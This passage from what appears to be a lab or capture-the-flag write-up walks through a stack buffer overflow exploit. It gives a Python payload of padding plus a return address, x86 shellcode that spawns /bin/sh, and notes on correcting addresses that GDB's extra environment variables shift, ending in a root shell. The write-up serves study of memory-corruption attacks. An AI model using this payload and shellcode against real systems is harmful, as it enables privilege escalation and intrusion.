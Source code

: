 now our payload script looks like this
```python=
pointer_to_shellcode = "\x16\xf9\xff\xbf"
payload = "A"*140 + pointer_to_shellcode
print(payload)
```

Here is how the address looks like in GDB
![image](https://hackmd.io/_uploads/SkvSsFN4p.png)

The code didnt work and I got some unexpected instructions when I jumped to my shellcode (shown below). turns out when I used the assembler tool, I did not specify the correct architecture (x64 instad of x86) and that same assembly that generated the opcode was different hence the weird instructions in the end. 
![image](https://hackmd.io/_uploads/BkFORF4E6.png)

Of course, I had to get the env pointer again
![image](https://hackmd.io/_uploads/B15DyqNNT.png)


The shellcode.py file is changed to 
`print("\x31\xC0\x31\xDB\x31\xC9\x31\xD2\x68\x6E\x2F\x73\x68\x68\x2F\x2F\x62\x69\x89\xE3\x50\x53\x50\xB0\x0B\xCD\x80")`

And payload.py is changed to
![image](https://hackmd.io/_uploads/B11Vyq4Np.png)

I tested the shellcode in GDB and it did seem that I managed to execute the shell command in that environment.
![image](https://hackmd.io/_uploads/BJCdkqNVp.png)

However, I get segfaults and invalid instructions if I try to launch it without GDB. It should not be the shellcode, so it might have something to do with the payload or the offset.

After some searching, I realized that GDB also adds environemt variables and we all have been building our exploit on the additional environment variables. Which might be causing our payload or offset to be incorrect.

The environment variables added are the `LINES` and `COLUMNS` variable, which is used by GDB internally to determine display dimensions. These variables **DOES NOT** exist if i launch it normally.

Hence, we need to regenerate the payload with a fresh env instead.
![image](https://hackmd.io/_uploads/S1zhE94N6.png)


The new pointer to the shellcode
![image](https://hackmd.io/_uploads/r1QqEq4NT.png)

And the new payload 
```
pointer_to_shellcode = "\xc1\xff\xff\xbf"
payload = "A" *140 + pointer_to_shellcode
print(payload)
```

Once those changes are applies, we should be able to execute a shell as root.
![image](https://hackmd.io/_uploads/r1Nor944a.png)